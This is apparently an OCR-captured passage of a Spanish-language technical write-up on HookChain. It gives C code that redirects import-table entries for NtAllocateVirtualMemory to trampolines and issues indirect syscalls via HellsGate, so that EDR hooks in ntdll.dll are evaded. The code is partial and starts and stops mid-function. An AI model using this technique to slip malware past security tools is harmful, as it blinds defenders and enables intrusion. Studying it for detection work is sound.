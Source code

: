 ```c
                // Comparar nombre y reemplazar
                if (GetFunctionName(thunk) == "NtAllocateVirtualMemory") {
                    DWORD oldProtect;
                    VirtualProtect(&thunk->u1.Function, sizeof(PVOID), PAGE_READWRITE, &oldProtect);
                    thunk->u1.Function = (DWORD_PTR)MyNtAllocateVirtualMemoryTrampoline;
                    VirtualProtect(&thunk->u1.Function, sizeof(PVOID), oldProtect, &oldProtect);
                }
                thunk++;
            }
            importDesc++;
        }
    }
    pEntry = pEntry->Flink;
}

// Trampoline example
void MyNtAllocateVirtualMemoryTrampoline(HANDLE ProcessHandle, PVOID *BaseAddress, ULONG_PTR ZeroBits, PSIZE_T RegionSize, ULONG AllocationType, ULONG Protect) {
    WORD ssn = LookupSSN("NtAllocateVirtualMemory");
    HellsGate(ssn);
    HellDescent(ProcessHandle, BaseAddress, ZeroBits, RegionSize, AllocationType, Protect);
}
```

#### Detalles de Trampolines con SSN Lookup

Los trampolines en HookChain son funciones puente que interceptan llamadas a syscalls importadas, ejecutan un lookup dinámico del SSN (Syscall Service Number) y luego invocan el syscall de manera indirecta. Esto añade una capa de indirección que evade hooks directos en ntdll.dll, ya que el trampoline reside en memoria del proceso y no modifica la DLL crítica.

**Mecanismo Detallado:**
1. **Intercepción:** Cuando un módulo llama a una función Nt* via IAT, el puntero redirigido apunta al trampoline en lugar de la función original.
2. **Lookup de SSN:** El trampoline invoca una función `LookupSSN` que parsea la EAT (Export Address Table) de ntdll.dll para encontrar el SSN de la función objetivo. Esto se hace dinámicamente para evitar valores hardcodeados que podrían ser detectados.
3. **Ejecución Indirecta:** Usando HellsGate o Tartarus Gate, el trampoline setea el SSN en RAX y ejecuta el syscall via `syscall`. Los argumentos se pasan intactos.
4. **Retorno:** El resultado del syscall se retorna al caller original, simulando una llamada normal.

**Implementación de LookupSSN:**
La función `LookupSSN` es clave para la robustez. En una implementación genérica, itera la EAT de ntdll.dll, compara nombres de funciones y extrae el SSN del prólogo de la función exportada. Para optimización, se puede cachear en una tabla hash para lookups rápidos.

Pseudocódigo para LookupSSN:
```c
WORD LookupSSN(const char* functionName) {
    static std::unordered_map<std::string, WORD> ssnCache;  // Cache para velocidad
    
    // Check cache first
    if (ssnCache.find(functionName) != ssnCache.end()) {
        return ssnCache[functionName];
    }
    
    // Obtener base de ntdll.dll
    HMODULE hNtdll = GetModuleHandleW(L"ntdll.dll");
    if (!hNtdll) return 0;
    
    PIMAGE_DOS_HEADER dos = (PIMAGE_DOS_HEADER)hNtdll;
    PIMAGE_NT_HEADERS nt = (PIMAGE_NT_HEADERS)((PBYTE)dos + dos->e_lfanew);
```